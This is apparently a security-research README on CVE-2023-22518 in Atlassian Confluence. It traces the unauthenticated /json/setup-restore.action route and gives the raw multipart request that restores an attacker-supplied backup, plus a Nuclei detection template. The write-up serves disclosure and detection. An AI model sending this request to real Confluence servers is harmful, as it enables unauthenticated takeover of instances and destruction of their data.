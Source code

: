 # CVE-2023-22518
CVE-2023-22518 is a critical vulnerability in Atlassian Confluence Data Center and Server. The vulnerability could potentially allow unauthenticated attackers with network access to the Confluence Instance to restore the database of the Confluence instance and eventually execute arbitrary system commands.

## Technical Details
After performing a patch diff between the patched and unpatched versions, we identified the addition of two new annotations, namely, @WebSudoRequired and @SystemAdminOnly, in various Action classes.

Initially, we attempted to brute-force the routes leading to these specific actions, but this approach yielded no success. We then turned our attention to the struts.xml file, which contains information about action and namespace-based routing, as well as interceptors, hoping to uncover insights. However, nothing immediately stood out.

Additionally, we noticed a regex change in the SafeParametersInterceptor, which was related to a previous critical CVE-2023-22515 that had led to authentication bypass. We dedicated a significant amount of time trying to exploit this change, but were unable to make any breakthroughs. Our investigation led us to the understanding that in the case of ActionObject.getXYZ.getABC[N]=ANYTHING, where N must be a digit, the SafeParametersInterceptor would not consider the parameter key as a complex parameter and would permit OgnlValueStack.setValue(...).

The discovery revealed a complex hurdle: locating a method capable of facilitating authentication bypass through property modifications. This process necessitated the existence of a getter returning a collection or array. Furthermore, an index with a manipulable setter was essential. We then redirected our focus to the struts.xml file, scrutinizing its contents for any potential leads. Upon closer inspection, it was evident that the /json namespace enhances the /admin namespace's functions. Consequently, routes crafted for the /admin namespace can also be accessed via the /json namespace.

In the context of the /json namespace, the request routing process involves passing through a series of interceptors. One of these interceptors, known as the WebSudoInterceptor, performs checks based on the request URI.

WebSudo, a security feature commonly associated with Atlassian Confluence, plays a crucial role here. It requires users to re-authenticate themselves with elevated privileges, typically their password, before they can perform critical operations.

Specifically, the WebSudoInterceptor performs the following checks:

- If the request path is /authenticate.action, it is skipped.
- If the request path is /admin, it checks whether the WebSudoNotRequired attribute is not null.
- For any other request path, such as those in the /json namespace, it ensures that the WebSudoRequired attribute is null. This condition suggests that the WebSudoRequired annotation is not present at either the class, package, or method level. If this condition is met, the WebSudo check, which is responsible for initiating a secure admin session, is skipped.

The objective now is to identify an action (class) that lacks any authorization or authentication checks at the HTTP handler method level.

The subsequent phase involved conducting a brute-force of all the endpoints/actions within the /admin/ namespace to /json/. The objective was to monitor the responses and identify any noteworthy findings. During this, an observation was made when attempting a GET request on /json/setup-restore.action, which resulted in a 405 Method Not Allowed response. Further examination of the code confirmed that it lacked the WebSudoRequired annotation and did not implement any secondary authentication checks within the method handler. In essence, this meant that by supplying the correct parameters, the request could potentially succeed without requiring any form of authentication.

HTTP:
```
POST /json/setup-restore.action?synchronous=true HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryT3yekvo0rGaL9QR7
X-Atlassian-Token: no-check
Content-Length: 277538

------WebKitFormBoundaryT3yekvo0rGaL9QR7
Content-Disposition: form-data; name="buildIndex"

false
------WebKitFormBoundaryT3yekvo0rGaL9QR7
Content-Disposition: form-data; name="file";filename="exploit-restore.zip"

ZIP_DATA
------WebKitFormBoundaryT3yekvo0rGaL9QR7
Content-Disposition: form-data; name="edit"

Upload and import
------WebKitFormBoundaryT3yekvo0rGaL9QR7--

```

Interestingly, passing synchronous=true what actually worked for us. This was a simple change from false to true when the earlier request was not resulting in a successful restore, even when a task was created to restore.

## Nuclei Template
Due to the nature of this vulnerability, to restore the state of Confluence instance to attacker-controlled data/users. We're releasing a detection-based template rather than a full exploit-based template for this CVE.

YAML:
```
id: CVE-2023-22518

info:
  name: Atlassian Confluence Server - Improper Authorization
  author: ForceFledgling
  severity: critical
  description: |
    All versions of Confluence Data Center and Server are affected by this unexploited vulnerability. There is no impact to confidentiality as an attacker cannot exfiltrate any instance data.
    Atlassian Cloud sites are not affected by this vulnerability. If your Confluence site is accessed via an atlassian.net domain, it is hosted by Atlassian and is not vulnerable to this issue.
  reference:
    - https://confluence.atlassian.com/pages/viewpage.action?pageId=1311473907
    - https://jira.atlassian.com/browse/CONFSERVER-93142
    - https://nvd.nist.gov/vuln/detail/CVE-2023-22518
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H
    cvss-score: 9.1
    cve-id: CVE-2023-22518
    epss-score: 0.00043
    epss-percentile: 0.0726
  metadata:
    verified: true
    max-request: 1
    vendor: atlassian
    product: confluence_data_center
    shodan-query: http.component:"Atlassian Confluence"
    note: this template attempts to validate the vulnerability by uploading an invalid (empty) zip file. This is a safe method for checking vulnerability and will not cause data loss or database reset. In real attack scenarios, a malicious file could potentially be used causing more severe impacts.
  tags: cve,cve2023,atlassian,confluence,rce,unauth

http:
  - raw:
      - |
        POST /json/setup-restore.action HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryT3yekvo0rGaL9QR7
        X-Atlassian-Token: no-check

        ------WebKitFormBoundaryT3yekvo0rGaL9QR7
        Content-Disposition: form-data; name="buildIndex"

        true
        ------WebKitFormBoundaryT3yekvo0rGaL9QR7
        Content-Disposition: form-data; name="file";filename="{{randstr}}.zip"

        {{randstr}}
        ------WebKitFormBoundaryT3yekvo0rGaL9QR7
        Content-Disposition: form-data; name="edit"

        Upload and import
        ------WebKitFormBoundaryT3yekvo0rGaL9QR7--

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
          - "contains_all(body,'The zip file did not contain an entry', 'exportDescriptor.properties')"
        condition: and
```
